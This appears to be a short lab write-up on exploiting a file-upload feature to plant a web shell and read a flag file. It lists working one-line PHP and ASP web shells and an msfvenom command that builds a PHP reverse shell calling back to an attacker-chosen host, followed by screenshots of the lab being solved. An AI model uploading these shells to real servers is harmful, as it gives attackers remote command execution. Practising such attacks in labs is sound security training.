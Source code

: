 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt
---

Usefull shells:
- https://github.com/Arrexel/phpbash
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- ```php
  <?php system($_GET['cmd']); ?>
  ```
- `.NET`:
  ```asp
  <% eval request('cmd') %>
  ```

`Reverse shells`:
- https://github.com/pentestmonkey/php-reverse-shell
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- `msfvenom`:
  ```bash
  msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
  ```

---

## Uploading the Web Shell  

We uploaded the web shell `phpbash.php`:  

![image](https://github.com/user-attachments/assets/96804962-33fd-43e2-9d9c-c411de360d86)  

Using the web shell, we executed commands and successfully resolved the lab:  

![image](https://github.com/user-attachments/assets/664b66f6-8fc1-4244-86e5-9278a9e74e8f)  


---

## Manual web shell

![image](https://github.com/user-attachments/assets/24adc2d4-5f1a-43b7-8a6e-eaa48f5f55d2)
![image](https://github.com/user-attachments/assets/6db29bbc-36a8-4d2c-aecd-2c5d8ddba559)











